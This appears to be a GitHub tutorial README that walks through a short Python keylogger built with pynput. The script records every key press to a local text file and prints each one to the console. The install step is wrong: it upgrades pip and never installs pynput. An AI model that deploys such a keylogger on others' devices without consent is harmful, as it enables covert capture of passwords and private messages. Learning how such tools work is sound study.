

# Installing And Importing The Required Module And Packages

For this project we need to install the _pynput_ package and make use of the _keyboard_ module.

The _keyboard_ moduel is required to monitor keyboard inputs. This allows for the program to listen for key presses.

> The package can be installed via the _Terminal_ using the following command:
>
> ```bash
> python.exe -m pip install --upgrade pip
> ```

Once the package is installed, we need to import the module using the following line:

```python
# Importing the necessary module
from pynput import keyboard
```

# Creating A Function

Firstly, we define a function named _keyPressed_ that takes a _key_ parameter which represents the key that is pressed.

A print line is added to see the real-time presses.

The function then creates a file named "keyfile.txt" in append mode so that previous content in the file is not overwritten. This file will keep a record of all keys pressed. The _with_ ensures the file is properly closed after the code is executed.

Inside the _try_ block, the code attempts to get the character representation of the pressed key and if successfull it writes this character to "keyfile.txt" file.

The _except_ is used in case there are any exception that occur (when the key pressed doesnt have a character representaion, like Shift or Ctrl) in which case it will print out the message "Error getting char".

```python
def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")
```

# Main Code

This block of code sets up the keyboard listener, starts it running in the background, by creating a new _Listener_ object from the _keyboard_ module. The _on_press_ parameter is set to the _keyPressed_ function we defined earlier. This means that every time a key is pressed, the _keyPressed_ function will be called with the key as its argument. The main program runs indefinitely (or until the user decides to end it by pressing Enter). This allows the script to continuously monitor and log keystrokes for as long as it's left running.


```python
# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# The Full Code

```python
# Import the keyboard module from pynput library
from pynput import keyboard


def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")


# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# Contents Of keyfile.txt




